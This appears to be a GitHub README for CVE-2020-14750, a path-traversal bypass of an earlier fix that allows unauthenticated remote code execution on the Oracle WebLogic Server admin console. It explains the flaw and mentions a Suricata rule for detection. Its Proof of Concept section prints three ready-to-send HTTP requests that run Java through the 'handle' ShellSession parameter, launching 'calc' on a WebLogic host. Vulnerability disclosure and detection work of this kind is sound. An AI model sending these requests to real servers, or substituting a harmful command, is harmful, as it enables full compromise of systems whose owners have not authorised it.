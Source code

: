## Overview
CVE-2020-14750 is a bypass of CVE-2020-14882. They could be used to get unauthenticated remote code execution on the administration interface (port 7001/TCP by default) of Oracle Weblogic Server.  

In a nutshell, they are path traversal vulnerabilities in the path with encoded "../", which allows attackers access /console/console.portal and execute Java code via the **handle** parameter. To make them pre-authenticated, attackers must use one of two paths like this:
* /console/**css**/../console.portal
* /console/**images**/../console.portal

When fixing CVE-2020-14882, Oracle used a blacklist to filter some special strings. Of course, they missed many trivial cases, which leads to a trivial bypass.  

If you cannot determine whether your Oracle Weblogic Servers are using only the default port 7001/TCP for the administration interface, you can use **any any -> any any** in the Suricata rule instead of **any any -> any 7001**.

## Proof of Concept
* GET method
```
GET /console/css/%%32e.%%32fconsole.portal?handle=com.tangosol.coherence.mvel2.sh.ShellSession%28%22java.lang.Runtime.getRuntime%28%29.exec%28%27calc%27%29%3B%22%29%3B HTTP/1.1
Host: example.com:7001
Content-Length: 0
```
* POST method with the payload on the URI
```
POST /console/css/%%32e.%%32fconsole.portal?handle=com.tangosol.coherence.mvel2.sh.ShellSession%28%22java.lang.Runtime.getRuntime%28%29.exec%28%27calc%27%29%3B%22%29%3B HTTP/1.1
Host: example.com:7001
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
* POST method with the payload in the body
```
POST /console/css/%%32e.%%32fconsole.portal HTTP/1.1
Host: example.com:7001
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('calc');");
```

## References
* https://github.com/jas502n/CVE-2020-14882
* https://twitter.com/steventseeley/status/1322138037543981056